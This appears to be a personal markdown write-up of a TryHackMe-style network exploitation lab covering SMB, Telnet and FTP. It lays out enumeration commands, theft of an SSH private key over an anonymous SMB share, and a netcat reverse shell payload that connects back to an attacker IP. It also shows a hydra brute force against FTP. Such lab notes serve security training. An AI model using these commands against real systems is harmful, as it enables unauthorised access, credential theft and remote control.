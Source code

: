 ## Network Exploitation Basics

- `$ nmap -sS -sV [IP] -vv` - nmap scan to check for open ports on an IP
-  `$ enum4linux -a [IP]` - full basic enumeration (smb protocol)
- `$ smbclient //[IP]/[SMB share] -U [user] -p [port]` - SMB exploit for RCE and gaining access to shell
---
### SMB Exploit

> **we will look into an SMB server exploit and obtaining shell access to that machine** 

+ first we perform enumeration and find out its SMB server by doing `$ enum4linux -a [IP]`
+ then we find out share name and in this case it is `profiles`
+ according to given instructions, 
	`$ smbclient //10.10.150.194/profiles -U Anonymous` - this gives access to SMB shell (anonymous cuz they asked to put user as anonymous)
- now do ls and navigate and we find 'Working From Home Information.txt' and under /.ssh/ directory we get id_rsa (private key) of `John cactus` who is working from home and can access his workspace through ssh. 
- so copy this on to main terminal by doing `$ get id_rsa` and `$ get 'Working From Home Information.txt'` 
- copy both these files into /root/Rooms/.ssh and then login through ssh by providing the private key obtained as password 
- `$ ssh cactus@10.10.150.194 -i id_rsa` - this gives access to his secure workspace and do ls and find `smb.txt` containing the `FLAG`
- -i switch is used to specify the identity file (private key) to be used for authenticating an SSH (Secure Shell) connection.
---
### Telnet Exploit

>**exploiting telnet ttl server to get full reverse shell on machine**

- `$ telnet [IP] [port]` - here port is 8012 running ttl
- we start a tcpdump listener on our local machine to check if server is active when we ping and if comms is established 
   `$ sudo tcpdump ip proto \\icmp -i tun0` - for machine using openvpn
- now open new tab and ping IP and we get a response on tcpdump listener terminal so we are all set to go
- now we generate `reverse shell` payload using `msfvenom` , this generates the payload and encodes a netcat reverse shell for us
	`$ msfvenom -p cmd/unix/reverse_netcat lhost=[IP] lport=4444 R` - here we need to get local host IP of attacker machine by doing `$ ifconfig` 
	this gives us the payload :
	`mkfifo /tmp/shdodfz; nc 10.17.94.67 4444 0</tmp/shdodfz | /bin/sh >/tmp/shdodfz 2>&1; rm /tmp/shdodfz`
- now we start a netcat listener on our local machine 
	`$ nc -lvp 4444` - 4444 cuz that's the listening port we selected in payload
- now we go back to the telnet session and paste the payload
```
.RUN mkfifo /tmp/shdodfz; nc 10.17.94.67 4444 0</tmp/shdodfz | /bin/sh >/tmp/shdodfz 2>&1; rm /tmp/shdodfz 
```
- we get this as message :
	`connect to [10.17.94.67] from (UNKNOWN) [10.10.206.190] 51020`
	now do ls and cat flag.txt 
	FLAG - *THM{y0u_g0t_th3_t3ln3t_fl4g}*
--- 
### FTP Exploit

> Exploiting FTP server by doing anonymous login and cracking password 

- while doing enumeration, we start off with `$ nmap -sC [IP]` and we find 2 open ports `21` and `80` running `vsFTPd` version of FTP  and since anonymous login is allowed :
	`$ ftp Anonymous@[IP]` - when prompted for password just click enter and do ls and read contents of PUBLIC_Notice.txt (`$ more Public_Notice.txt`) for finding potential username.

- Now we have username so we'll try to `bruteforce` the password for the ftp server login by password cracking using `hydra`
```
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV [IP] ftp 
```
- we get password as `password` so now we can login and read contents of txt files in the server
	`$ ftp [IP]` - when prompted for user and pass put `mike` and `password` and then do `$more ftp.txt` 
---
